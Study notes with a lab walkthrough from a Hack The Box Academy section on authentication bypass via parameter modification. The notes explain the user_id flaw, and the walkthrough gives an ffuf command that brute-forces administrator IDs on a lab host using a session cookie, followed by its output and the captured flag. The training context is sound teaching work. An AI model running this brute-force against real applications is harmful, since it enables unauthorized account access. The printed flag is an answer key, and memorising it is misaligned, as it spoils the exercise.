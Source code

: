 ```yaml
---
aliases:
  - Authentication Bypass via Parameter Modification
sticker: emoji//1faaa
---
```

An authentication implementation can be flawed if it depends on the presence or value of an HTTP parameter, introducing authentication vulnerabilities. As in the previous section, such vulnerabilities might lead to authentication and authorization bypasses, allowing for privilege escalation.

This type of vulnerability is closely related to authorization issues such as `Insecure Direct Object Reference (IDOR)` vulnerabilities, which are covered in more detail in the [Web Attacks](https://academy.hackthebox.com/module/details/134) module.

---

## Parameter Modification

Let us take a look at our target web application. This time, we are provided with credentials for the user `htb-stdnt`. After logging in, we are redirected to `/admin.php?user_id=183`:

![image](https://academy.hackthebox.com/storage/modules/269/bypass/bypass_param_1.png)

In our web browser, we can see that we seem to be lacking privileges, as we can only see a part of the available data:

   

![](https://academy.hackthebox.com/storage/modules/269/bypass/bypass_param_2.png)

To investigate the purpose of the `user_id` parameter, let us remove it from our request to `/admin.php`. When doing so, we are redirected back to the login screen at `/index.php`, even though our session provided in the `PHPSESSID` cookie is still valid:

![image](https://academy.hackthebox.com/storage/modules/269/bypass/bypass_param_3.png)

Thus, we can assume that the parameter `user_id` is related to authentication. We can bypass authentication entirely by accessing the URL `/admin.php?user_id=183` directly:

![image](https://academy.hackthebox.com/storage/modules/269/bypass/bypass_param_4.png)

Based on the parameter name `user_id`, we can infer that the parameter specifies the ID of the user accessing the page. If we can guess or brute-force the user ID of an administrator, we might be able to access the page with administrative privileges, thus revealing the admin information. We can use the techniques discussed in the `Brute-Force Attacks` sections to obtain an administrator ID. Afterward, we can obtain administrative privileges by specifying the admin's user ID in the `user_id` parameter.

---

## Final Remark

Note that many more advanced vulnerabilities can also lead to an authentication bypass, which we have not covered in this module but are covered by more advanced modules. For instance, Type Juggling leading to an authentication bypass is covered in the [Whitebox Attacks](https://academy.hackthebox.com/module/details/205) module, how different injection vulnerabilities can lead to an authentication bypass is covered in the [Injection Attacks](https://academy.hackthebox.com/module/details/204) and [SQL Injection Fundamentals](https://academy.hackthebox.com/module/details/33) modules, and logic bugs that can lead to an authentication bypass are covered in the [Parameter Logic Bugs](https://academy.hackthebox.com/module/details/239) module.

# Question
---
![](../images/Pasted%20image%2020250214182725.png)

Once we've authenticated, we can see the following:

![](../images/Pasted%20image%2020250214182813.png)

We get assigned an user id in the URL and we're also told we don't have admin privileges, we can brute-force the admin id in the following way:

First, create a wordlist of digits from 1 to 1000:

```bash
seq 1 1000 > digits.txt
```

Now, do the following ffuf command:

```
ffuf -w digits.txt -u "http://IP:PORT/admin.php?user_id=FUZZ" -fr "Could not load admin data. Please check your privileges" -b "PHPSESSID=our_cookie" -ic -c -t 200
```

After a while, we get the following:

```
ffuf -w digits.txt -u "http://94.237.48.103:39253/admin.php?user_id=FUZZ" -fr "Could not load admin data. Please check your privileges" -b "PHPSESSID=9i2epg991j6af0vvgp56v9rnav" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://94.237.48.103:39253/admin.php?user_id=FUZZ
 :: Wordlist         : FUZZ: /home/samsepiol/digits.txt
 :: Header           : Cookie: PHPSESSID=9i2epg991j6af0vvgp56v9rnav
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Could not load admin data. Please check your privileges
________________________________________________

372                     [Status: 200, Size: 14465, Words: 4165, Lines: 429, Duration: 2667ms]
```

So, admin user's id is `372`, let's log into admin panel:

![](../images/Pasted%20image%2020250214183900.png)

Flag is:

```
HTB{63593317426484ea6d270c2159335780}
```